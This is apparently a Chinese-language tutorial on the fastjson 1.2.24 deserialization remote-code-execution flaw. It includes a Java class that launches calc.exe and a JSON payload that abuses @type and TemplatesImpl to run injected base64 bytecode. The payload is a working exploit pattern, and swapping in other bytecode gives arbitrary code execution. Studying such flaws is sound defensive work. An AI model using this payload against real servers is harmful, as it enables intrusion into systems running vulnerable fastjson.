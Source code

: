 # fastjson 反序列化漏洞详解（TemplatesImpl）

> `apache common collections`以及Spring RCE都是利用了`readObject`方法进行利用链触发的。`fastjson`的反序列化则是利用了目标类的`set`方法与`get`方法，因为这两个方法是`fastjson`在进行反序列化时需要调用的方法。
>
> `fastjson`是一个java编写的高性能功能非常完善的JSON库，应用范围非常广，在github上star数都超过1w8，在2017年3月15日，`fastjson`官方主动爆出`fastjson`在1.2.24及之前版本存在远程代码执行高危安全漏洞。攻击者可以通过此漏洞远程执行恶意代码来入侵服务器。关于漏洞的具体详情可参考 https://github.com/alibaba/fastjson/wiki/security_update_20170315

## POC

这是一个简单的弹出计算器的类，编译`Calc.java`获得`Calc.class`。为了下一步的poc使用。

```
package SpringJDNI;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
public class Calc extends AbstractTranslet {
    public Calc() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Calc t = new Calc();
    }
}
```

这是POC最核心的部分就是将`_bytecodes`进行赋值，其中`@type`可以指定反序列化任意类，并调用其中的`set，get，is`方法，`fastjson`默认开启`type`属性。`Json`字符串需要吧`@type`放在最前边，否则无法利用。这里的`_bytecodes`就是将之前生成的`Calc.class`，进行base64编码后的字符串。

```
{    "@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes":["base64编码后的继承于AbstractTranslet类的子类的class文件"],
    '_name':'a.b',
    '_tfactory':{ },
    "_outputProperties":{ },
    "_version":"1.0",
    "allowedProtocols":"all"
}
```
